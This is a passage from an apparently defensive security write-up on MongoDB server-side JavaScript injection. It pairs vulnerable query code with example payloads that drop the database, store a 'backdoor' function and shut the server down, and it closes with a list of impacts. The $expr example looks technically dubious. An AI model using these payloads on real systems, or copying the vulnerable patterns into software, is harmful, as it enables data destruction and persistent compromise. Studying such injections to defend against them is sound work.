     // Malicious payload (injected as searchTerm):
    `') || this.dropDatabase() || ('`

    // Resulting query executed on the server:
    // db.collection('users').find({ $where: `this.username.indexOf('') || this.dropDatabase() || ('') > -1` }).toArray();
    ```
    In this example, the injected code `this.dropDatabase()` will be executed, deleting the entire database.

* **Aggregation Pipeline `$expr` Injection:**
    ```javascript
    // Vulnerable code:
    const comparisonValue = req.query.threshold;
    db.collection('products').aggregate([
      { $match: { $expr: { $gt: ['$price', parseInt(comparisonValue)] } } }
    ]).toArray();

    // Malicious payload (injected as comparisonValue):
    `'); db.system.js.save({_id: 'backdoor', value: function() { return "You've been hacked!"; } }); db.loadServerScripts(); ('`

    // Resulting aggregation stage:
    // { $match: { $expr: { $gt: ['$price', parseInt('') ); db.system.js.save({_id: 'backdoor', value: function() { return "You've been hacked!"; } }); db.loadServerScripts(); (' ] } } }
    ```
    This injection creates a stored JavaScript function named `backdoor` which can be later executed.

* **MapReduce `map` Function Injection:**
    ```javascript
    // Vulnerable code (allowing user-defined map function):
    const userMapFunction = req.body.mapFunction;
    db.collection('logs').mapReduce(
      userMapFunction,
      function(key, values) { return { count: values.length }; },
      { out: "log_counts" }
    );

    // Malicious payload (injected as userMapFunction):
    `function() { db.runCommand({ shutdown: 1 }); }`

    // Resulting MapReduce operation will execute the shutdown command.
    ```

**Potential Impact:**

The impact of a successful Server-Side JavaScript Injection can be catastrophic, including:

* **Data Breach:** Accessing and exfiltrating sensitive data stored in the database.
* **Data Manipulation/Corruption:** Modifying or deleting critical data, leading to business disruption or financial loss.
* **Denial of Service (DoS):**  Executing code that consumes excessive resources, crashing the database server or making it unresponsive.
* **Remote Code Execution (RCE) on the Server:** In some scenarios, the injected JavaScript can interact with the underlying operating system, allowing the attacker to execute arbitrary commands on the server hosting the MongoDB instance. This is the most severe outcome.
* **Privilege Escalation:** Potentially gaining access to other resources or systems accessible to the MongoDB process.
* **Backdoor Creation:**  Injecting code to create persistent backdoors for future access, such as creating new administrative users or stored JavaScript functions.
